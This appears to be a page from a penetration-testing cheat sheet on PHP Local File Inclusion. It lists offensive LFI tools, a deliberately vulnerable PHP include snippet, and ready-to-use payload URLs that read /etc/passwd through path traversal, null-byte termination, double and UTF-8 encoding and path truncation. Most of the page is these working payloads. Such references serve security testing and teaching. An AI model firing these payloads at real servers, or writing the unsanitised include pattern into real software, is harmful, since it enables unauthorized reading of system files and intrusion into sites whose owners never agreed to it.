 ## Tools

* [Kadimus - https://github.com/P0cL4bs/Kadimus](https://github.com/P0cL4bs/Kadimus)
* [LFISuite - https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)
* [fimap - https://github.com/kurobeats/fimap](https://github.com/kurobeats/fimap)
* [panoptic - https://github.com/lightos/Panoptic](https://github.com/lightos/Panoptic)


## Local File Inclusion

Consider a PHP script that includes a file based on user input. If proper sanitization is not in place, an attacker could manipulate the `page` parameter to include local or remote files, leading to unauthorized access or code execution.

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### Null byte

:warning: In versions of PHP below 5.3.4 we can terminate with null byte.

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

### Double encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 encoding

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path and dot truncation

On most PHP installations a filename longer than `4096` bytes will be cut off so any excess chars will be thrown away.

```powershell
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
